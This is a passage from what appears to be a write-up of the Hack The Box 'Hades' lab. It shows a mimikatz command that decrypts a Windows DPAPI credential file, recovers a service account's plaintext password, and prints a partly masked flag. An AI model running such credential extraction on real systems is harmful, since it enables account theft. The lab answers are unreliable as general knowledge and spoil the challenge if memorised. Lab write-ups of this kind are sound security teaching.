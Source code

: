 ```
mimikatz # dpapi::cred /in:4A2EEB30EFC7958491B6578D9948EC7F
```

[![mimi-dpapi-cred.png](/assets/images/htb/endgames/hades/mimi-dpapi-cred.png)](/assets/images/htb/endgames/hades/mimi-dpapi-cred.png)
{:.center-image}

Got some creds `htb.local\test-svc:T3st-S3v!ce-F0r-Pr0d` from the `4A2EEB30EFC7958491B6578D9948EC7F` credential file and the `1A2572C793495F694F64823A392D4718` file gave me the fourth flag in the `CredentialBlob` property with `flag` as `UserName` :smiley:

```
...
TargetName     : Domain:target=flag
UnkData        : (null)
Comment        : (null)
TargetAlias    : (null)
UserName       : flag
CredentialBlob : HADES{V5C_r3ve4L_*************}
Attributes     : 0
...
```
